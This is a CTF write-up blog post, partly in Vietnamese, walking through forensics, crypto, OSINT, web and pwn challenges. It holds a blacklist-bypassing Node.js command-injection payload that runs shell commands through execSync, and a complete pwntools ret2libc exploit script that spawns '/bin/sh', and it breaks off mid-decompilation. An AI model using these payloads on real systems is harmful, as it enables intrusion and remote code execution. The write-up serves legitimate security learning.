Hi there!! My friends and I just had another CTF…. We decided to join some competitions to get more familiar. Despite that our skill is still noob at this time…. 😢, My role is to handle all easy challenges and some pwns…. I still need a lot of help from AI for some knowledge that I don't know. Alright, let’s look at how I solve the challs



# Rank :

`104/585 team`

# Huntme1

This chall quite simple just using `strings` 

```python
strings HUntme1
................................
nexus{h1dd3n_1n_7h3_f0r357_4t_n1gh7}
................................
```

# **Blinders**

Using `zsteg`

```php
 zsteg -a output.png 
b1,r,lsb,xy         .. text: "nexus{fake_flag_123}"
b1,g,lsb,xy         .. text: "nexus{lmao_not_the_flag}S"
b1,b,lsb,xy         .. text: "nexus{dummy_text_zzz}"
b1,a,lsb,xy         .. text: "nexus{yea_u_didi_v2er_wekcj7}"
b1,rgba,lsb,xy      .. text: ["w" repeated 8 times]
b1,abgr,msb,xy      .. text: ["w" repeated 8 times]
b2,rgb,msb,xy       .. file: OpenPGP Secret Key
b2,bgr,msb,xy       .. file: OpenPGP Secret Key

```

# **Sanity Check**



Using base64 decode but it not the real flag….

```php
echo YWl1b2t7ajNwejBnd19nMF94ZTNfYTRlM30= | base64 -d
aiuok{j3pz0gw_g0_xe3_a4e3}
```

Here i using `Vigenere cipher` with the key is `NEXUS`  and repeat



# **Special Horse**

Some osint and it is quite simple

```php
"Faster than light": This refers to the scientific definition of a Tachyon, a hypothetical particle that travels faster than light.

"Special Horse": This points to the famous Japanese racehorse named Agnes Tachyon.

"He's faster than light": The real-life horse Agnes Tachyon was a stallion (male), fitting the pronoun "he," and was known for his incredible speed before an early retirement. He is also a popular character in the Uma Musume: Pretty Derby franchise.

The Flag Following the required format (lowercase, spaces to underscores):

nexus{agnes_tachyon}
```

[Agnes Tachyon The Phantom of Umamusume](https://www.youtube.com/watch?v=tWYuXIAJFZw&t=1s)

nexus{agnes_tachyon}

# **Chain Clue**

```php
1. The Tool: Etherscan
To view the raw data of a transaction, you need a Block Explorer. Since this is on the Sepolia network, you must use the Sepolia version of Etherscan.

URL: https://sepolia.etherscan.io/

2. The Investigation
Search the Hash: Paste the Transaction Hash (0x1c1e...) into the search bar on Sepolia Etherscan.

Locate Input Data: Scroll down to the bottom of the transaction details page. Look for a field labeled "Input Data" (sometimes hidden under a "Click to see more" tab).

Decode: the blockchain displays data in Hexadecimal (numbers and letters starting with 0x).

```







```php
nexus{Tr4c3_Th3_Tr4ns4ct10n}
```

# **Calculator**



This website is created with node.js 



and at here I think we should try to inject something in the calculator process maybe os command 

Look at this :



This is a big sign of Server Side JavaScript Injection…. for more infomation https://nodejs.org/api/child_process.html
I try some simple ways to get os command active but It got block !!!



It should be blacklist here. Instead i split the function into 2 part and stick it again with (+)

```php
POST /calculate HTTP/1.1
Host: ctf.nexus-security.club:3067
Content-Length: 78
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://ctf.nexus-security.club:3067
Referer: http://ctf.nexus-security.club:3067/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"expr": "module['req'+'uire']('child_pro'+'cess').execSync('ls').toString()"}

--------------------------------
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 89
ETag: W/"59-o9oD0ioEE6ynjU46nHtKRlpLsj0"
Date: Thu, 11 Dec 2025 20:59:19 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"result":"Public\nflag.txt\nnode_modules\npackage-lock.json\npackage.json\nserver.js\n"}
```

There we go…. Successfully injected the os command!!



```php
kali㉿kali)-[~/Downloads/Wordlist]
└─$ curl -X POST http://ctf.nexus-security.club:3067/calculate \
-H "Content-Type: application/json" \
-d '{"expr":"module['"'"'req'"'"'+'"'"'uire'"'"']('"'"'child_pro'"'"'+'"'"'cess'"'"').execSync('"'"'ls'"'"').toString()"}'
{"result":"Public\nflag.txt\nnode_modules\npackage-lock.json\npackage.json\nserver.js\n"}                                                                                                                                                                                                                                           
┌──(kali㉿kali)-[~/Downloads/Wordlist]
└─$ curl -X POST http://ctf.nexus-security.club:3067/calculate \
-H "Content-Type: application/json" \
-d '{"expr":"module['"'"'req'"'"'+'"'"'uire'"'"']('"'"'child_pro'"'"'+'"'"'cess'"'"').execSync('"'"'cat flag.txt'"'"').toString()"}'
{"result":"nexus{7h1s_1s_no7_3v4l_Th1s_15_3v1lllllllllllllllllll}"}      
```

# **Archive Keeper**

### 1. Identify Vulnerability


```python
00000000004011b0 <vuln>:

  4011b0:       55                      push   rbp

  4011b1:       48 89 e5                mov    rbp,rsp

  4011b4:       48 83 ec 40             sub    rsp,0x40

  4011b8:       48 8d 05 49 0e 00 00    lea    rax,[rip+0xe49]        # 402008 <_IO_stdin_used+0x8>

  4011bf:       48 89 c7                mov    rdi,rax

  4011c2:       e8 69 fe ff ff          call   401030 <puts@plt>

  4011c7:       48 8d 45 c0             lea    rax,[rbp-0x40]

  4011cb:       ba c8 00 00 00          mov    edx,0xc8

  4011d0:       48 89 c6                mov    rsi,rax

  4011d3:       bf 00 00 00 00          mov    edi,0x0

  4011d8:       e8 63 fe ff ff          call   401040 <read@plt>

  4011dd:       90                      nop

  4011de:       c9                      leave

  4011df:       c3   
```


- **Description:** Analyze C/Assembly source code to find the instruction `read(0, local_48, 200);` and the buffer size (`0x40` or 64 bytes).
- **Tools/Commands:** Assembly analysis, Ghidra
- **Result:** Buffer is **64 bytes**, Read size is **200 bytes**.

### 2. Calculate Offset

- **Description:** Calculate the distance from the buffer to the Saved $RBP$ (64 bytes) and add the size of Saved $RBP (8 bytes).
- **Tools/Commands:** Assembly Analysis.
- **Result:** Offset is **72 bytes**.
```php collapse={1-21, 30-43}
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xc8              
$rbx   : 0x00007fffffffdcc8  →  0x00007fffffffe043  →  "/home/kali/Downloads/ctf/nexthunt/archive keeper/c[...]"
$rcx   : 0x00007ffff7f964e0  →  0x00000000fbad2087
$rdx   : 0xc8              
$rsp   : 0x00007fffffffdba8  →  "saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa[...]"
$rbp   : 0x6161617261616171 ("qaaaraaa"?)
$rsi   : 0x00007fffffffdb60  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$rdi   : 0x0               
$rip   : 0x00000000004011df  →  <vuln+002f> ret 
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdce0  →  0x00007fffffffe12b  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe310  →  0x0000000000000000
$r15   : 0x0000000000403e00  →  0x0000000000401110  →  <__do_global_dtors_aux+0000> endbr64 
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdba8│+0x0000: "saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa[...]"    ← $rsp
0x00007fffffffdbb0│+0x0008: "uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha[...]"
0x00007fffffffdbb8│+0x0010: "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"
0x00007fffffffdbc0│+0x0018: "yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla[...]"
0x00007fffffffdbc8│+0x0020: "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"
0x00007fffffffdbd0│+0x0028: "daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpa[...]"
0x00007fffffffdbd8│+0x0030: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0x00007fffffffdbe0│+0x0038: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
─────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011d8 <vuln+0028>      call   0x401040 <read@plt>
     0x4011dd <vuln+002d>      nop    
     0x4011de <vuln+002e>      leave  
 →   0x4011df <vuln+002f>      ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x4011df in vuln (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4011df → vuln()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
gef➤  
gef➤  

```
### 3. Verify ROP Gadget

- **Description:** Find the `pop rdi; ret` gadget to control the function argument (`RDI` register).
- **Tools/Commands:**Bash
    
    `ROPgadget --binary chall | grep "pop rdi"`
    
- **Result:** Gadget address found.

### 4. Verify Alignment Gadget

- **Description:** Find a single `ret` gadget for 16-byte stack alignment (required for some Libc functions).
- **Tools/Commands:**Bash
    
    `ROPgadget --binary chall | grep "ret$"`
    
- **Result:** Gadget address found.

---

```python collapse={1-57, 61-67}
ROPgadget --binary chall | grep "ret$"

0x00000000004010bb : add bh, bh ; loopne 0x401125 ; nop ; ret

0x0000000000401088 : add byte ptr [rax], al ; add byte ptr [rax], al ; nop dword ptr [rax] ; ret

0x00000000004011f9 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret

0x000000000040112a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret

0x000000000040108a : add byte ptr [rax], al ; nop dword ptr [rax] ; ret

0x00000000004011fb : add byte ptr [rax], al ; pop rbp ; ret

0x000000000040112b : add byte ptr [rcx], al ; pop rbp ; ret

0x00000000004010ba : add dil, dil ; loopne 0x401125 ; nop ; ret

0x000000000040112c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret

0x0000000000401127 : add eax, 0x2f3b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret

0x0000000000401013 : add esp, 8 ; ret

0x0000000000401012 : add rsp, 8 ; ret

0x0000000000401128 : cmp ebp, dword ptr [rdi] ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret

0x0000000000401149 : in eax, 0x5f ; ret

0x00000000004011de : leave ; ret

0x00000000004010bd : loopne 0x401125 ; nop ; ret

0x0000000000401126 : mov byte ptr [rip + 0x2f3b], 1 ; pop rbp ; ret

0x0000000000401145 : mov dl, byte ptr [rbp + 0x48] ; mov ebp, esp ; pop rdi ; ret

0x00000000004011f8 : mov eax, 0 ; pop rbp ; ret

0x0000000000401148 : mov ebp, esp ; pop rdi ; ret

0x0000000000401147 : mov rbp, rsp ; pop rdi ; ret

0x00000000004011dd : nop ; leave ; ret

0x000000000040114c : nop ; pop rbp ; ret

0x00000000004010bf : nop ; ret

0x000000000040108c : nop dword ptr [rax] ; ret

0x000000000040112d : pop rbp ; ret

0x000000000040114a : pop rdi ; ret

0x0000000000401146 : push rbp ; mov rbp, rsp ; pop rdi ; ret

0x0000000000401016 : ret

0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret

0x00000000004010b8 : sub byte ptr [rax + 0x40], al ; add bh, bh ; loopne 0x401125 ; nop ; ret

0x0000000000401201 : sub esp, 8 ; add rsp, 8 ; ret

0x0000000000401200 : sub rsp, 8 ; add rsp, 8 ; ret
```
## Phase 1: Libc Address Leakage

**Goal:** Print the actual address of the `puts` function on the server to calculate the libc base address.

### 1. Find GOT/PLT Addresses

- **Description:** Identify the address of `puts@plt` (to call the function) and `puts@got` (to read the Libc address).
- **Tools/Commands:**Bash
    
    `readelf -r chall | grep puts`

```python
readelf -r chall | grep puts

000000404000  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```
    
- **Result:** `PUTS_GOT`: `0x404000` (Example).

### 2. Build ROP Chain

- **Description:** Create the ROP chain:
    
    > Padding + pop rdi; ret + puts@got + puts@plt + vuln_addr (return to main)
    > 
- **Tools/Commands:** Pwntools (`p64()`).
- **Result:** Payload 1 (72 byte Padding + 32 byte ROP Chain).

### 3. Send and Receive

- **Description:** Send Payload 1 and receive the leaked 8-byte address.
- **Tools/Commands:** Python / Pwntools (`remote()`, `recvuntil()`, `u64()`).
- **Result:** `puts` address leaked.

---

## Phase 2: Call Shell (`system("/bin/sh")`)

**Goal:** Use the calculated Libc Base address to call `system("/bin/sh")`.

### 1. Calculate Libc Address

- **Description:** Calculate Libc Base (`Leak - Offset`), then calculate the addresses of `system()` and the `/bin/sh` string based on local libc offsets.
- **Tools/Commands:** Pwntools (`libc.address`, `libc.symbols`, `libc.search()`).
- **Result:** `BIN_SH_ADDR` and `SYSTEM_ADDR` resolved.

### 2. Build Final ROP Chain

- **Description:** Create the ROP chain:
    
    > Padding + ret (alignment) + pop rdi; ret + /bin/sh + system()
    > 
- **Tools/Commands:** Pwntools (`p64()`).
- **Result:** Payload 2 (72 byte Padding + 32 byte ROP Chain).

### 3. Send and Interact

- **Description:** Send Payload 2 and switch to interactive mode.
- **Tools/Commands:** Pwntools (`sendline()`, `interactive()`).
- **Result:** **Shell Access**.


```python
Phân tích Lỗ hổng và Tìm Offset[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
[*] Kết nối tới ctf.nexus-security.club:2711
[+] Opening connection to ctf.nexus-security.club on port 2711: Done
[*] Xây dựng ROP Chain Stage 1 (Leak Libc)
[+] Địa chỉ puts thực tế: 0x7fefad8e75a0
[+] Libc Base Address: 0x7fefad867000
[+] system() Address: 0x7fefad8ba110
[+] '/bin/sh' Address: 0x7fefada0eea4
[*] Xây dựng ROP Chain Stage 2 
[+] Đã gửi Payload 2. Shell ổn định!
[*] Switching to interactive mode
Welcome to the Archive. Enter your data:
$ ls
chall
entrypoint.sh
flag.txt
ld-linux-x86-64.so.2
libc.so.6
nexus{B0ok_F0uND_L1BC_R3t}
$ $         
```

### Python code

```python collapse={1-82}
from pwn import *
import sys

# --- Initial Configuration ---
context.arch = 'amd64'
context.endian = 'little'
# context.log_level = 'debug' 

# --- Connection Information ---
HOST = 'ctf.nexus-security.club'
PORT = 2711

# --- Identified Exploit Parameters ---
OFFSET = 72          
POP_RDI = 0x40114a   
PUTS_PLT = 0x401030
VULN_ADDR = 0x4011b0 
PUTS_GOT = 0x404000 
RET_GADGET = 0x401016 # <--- NEWLY FOUND GADGET

# --- Libc Library ---
try:
    # Ensure this Libc file matches the one on the server!
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') 
except:
    log.error("Please ensure the libc file path is correct.")
    sys.exit(1)

def exploit():
    log.info(f"Connecting to {HOST}:{PORT}")
    r = remote(HOST, PORT)

    # --- Stage 1: Leak Libc Address ---
    r.recvuntil(b"Enter your data:")

    log.info("Building ROP Chain Stage 1 (Leak Libc)")
    rop_leak = b''
    rop_leak += p64(POP_RDI)      
    rop_leak += p64(PUTS_GOT)     
    rop_leak += p64(PUTS_PLT)     
    rop_leak += p64(VULN_ADDR)    # Return to vuln function

    payload1 = b'A' * OFFSET + rop_leak
    r.sendline(payload1)
    
    r.recvline() # Read empty/extra line
    
    # Receive actual puts address
    leak = r.recvuntil(b"\n").strip().ljust(8, b'\x00')
    actual_puts_addr = u64(leak)
    
    # Calculate Libc Base
    libc.address = actual_puts_addr - libc.symbols['puts']
    SYSTEM_ADDR = libc.symbols['system']
    BIN_SH_ADDR = next(libc.search(b'/bin/sh')) 
    
    log.success(f"Actual puts address: {hex(actual_puts_addr)}")
    log.success(f"Libc Base Address: {hex(libc.address)}")
    log.success(f"system() Address: {hex(SYSTEM_ADDR)}")
    log.success(f"'/bin/sh' Address: {hex(BIN_SH_ADDR)}")

    # --- Stage 2: Call system("/bin/sh") (Alignment Fixed) ---
    
    log.info("Building ROP Chain Stage 2 (Shell with Alignment Fix)")
    
    rop_shell = b''
    rop_shell += p64(RET_GADGET)   # <--- 16-byte STACK ALIGNMENT
    rop_shell += p64(POP_RDI)      
    rop_shell += p64(BIN_SH_ADDR)  
    rop_shell += p64(SYSTEM_ADDR)  

    payload2 = b'A' * OFFSET + rop_shell
    
    r.sendline(payload2)
    log.success("Payload 2 sent. Shell stabilized!")

    # Switch to interactive mode to input commands (ls, cat flag.txt)
    r.interactive()

# --- Code Execution ---
if __name__ == "__main__":
    exploit()
```

# Huntme2

1. **Kiểm tra chuẩn:** Bạn dùng lệnh `file HuntMe2` và phát hiện đây là **ELF 64-bit** (File thực thi trên Linux).

```python
 file HuntMe2 
HuntMe2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=90805c7ce81deefe66e4ae811f1b1d0d9d9b8f40, for GNU/Linux 3.2.0, stripped
```

2. **Tình trạng file:** Lệnh `file` báo là **"stripped"**.
    ◦ *Ý nghĩa:* Các tên hàm (như `main`, `check_password`) đã bị xóa để gây khó khăn. Chúng ta chỉ thấy tên dạng `FUN_0040xxxx`.
**Giai đoạn 2: Phân tích Tĩnh (Static Analysis)**
Chúng ta dùng Ghidra (hoặc công cụ tương tự) để chuyển mã máy thành mã giả (C pseudo-code).
1. **Tìm hàm Main:** Vì file bị stripped, ta vào `entry` -> tìm tham số gọi `__libc_start_main` -> đó chính là hàm Main (`FUN_004013df`).




2. **Đọc luồng chương trình:**
    ◦ Chương trình lấy input người dùng (`fgets`).
    ◦ Chương trình gọi hàm kiểm tra (`FUN_0040132a`).

```python
undefined8 FUN_0040132a(char *param_1)

{
  byte bVar1;
  size_t sVar2;
  undefined8 uVar3;
  ulong local_10;
  
  sVar2 = strlen(param_1);
  if (sVar2 == 0x20) {
    FUN_00401176();
    for (local_10 = 0; local_10 < 0x20; local_10 = local_10 + 1) {
      bVar1 = FUN_00401239((uint)local_10);
      if ((byte)(param_1[local_10] ^ bVar1) != (&DAT_00402060)[local_10]) {
        if (((uint)local_10 & 3) == 1) {
          return 0;
        }
        return 0;
      }
    }
    uVar3 = 1;
  }
  else {
    uVar3 = 0;
  }
  return uVar3;
}

```

**Giai đoạn 3: Phân tích Logic Mã hóa (Crypto Analysis)**
Đây là bước quan trọng nhất. Chúng ta đọc hàm kiểm tra `FUN_0040132a` và phát hiện công thức: 

input[i] xor key[i] == encrypted_data[i]

Từ đó, ta suy luận ngược lại để tìm Flag:{Flag}[i] =encrypted_data[i] xor key[i] 
Trong đó:

• **Encrypted_Data:** Là mảng tĩnh cố định trong file (tại `DAT_00402060`).

```python
                             DAT_00402060                                    XREF[2]:     FUN_0040132a:00401392(*), 
                                                                                          FUN_0040132a:004013a0(*)  
        00402060 f8              ??         F8h
        00402061 98              ??         98h
        00402062 76              ??         76h    v
        00402063 fb              ??         FBh
        00402064 c9              ??         C9h
        00402065 0a              ??         0Ah
        00402066 03              ??         03h
        00402067 0d              ??         0Dh
        00402068 44              ??         44h    D
        00402069 3d              ??         3Dh    =
        0040206a 6b              ??         6Bh    k
        0040206b a6              ??         A6h
        0040206c c3              ??         C3h
        0040206d 25              ??         25h    %
        0040206e a8              ??         A8h
        0040206f 60              ??         60h    `
        00402070 fb              ??         FBh
        00402071 57              ??         57h    W
        00402072 6c              ??         6Ch    l
        00402073 f3              ??         F3h
        00402074 a1              ??         A1h
        00402075 f0              ??         F0h
        00402076 cf              ??         CFh
        00402077 61              ??         61h    a
        00402078 e6              ??         E6h
        00402079 e4              ??         E4h
        0040207a 45              ??         45h    E
        0040207b 16              ??         16h
        0040207c 0e              ??         0Eh
        0040207d 18              ??         18h
        0040207e 3e              ??         3Eh    >
        0040207f 27              ??         27h    '

```

• **Key:** Được sinh ra động bởi hàm `FUN_00401239` (KeyGen).

```python

byte FUN_00401239(int param_1)

{
  byte bVar1;
  undefined *local_48 [5];
  int local_1c;
  undefined *local_18;
  int local_10;
  byte local_9;
  
  local_9 = 0;
  local_48[0] = &DAT_00402020;
  local_48[1] = &DAT_00402027;
  local_48[2] = &DAT_0040202e;
  local_48[3] = &DAT_00402035;
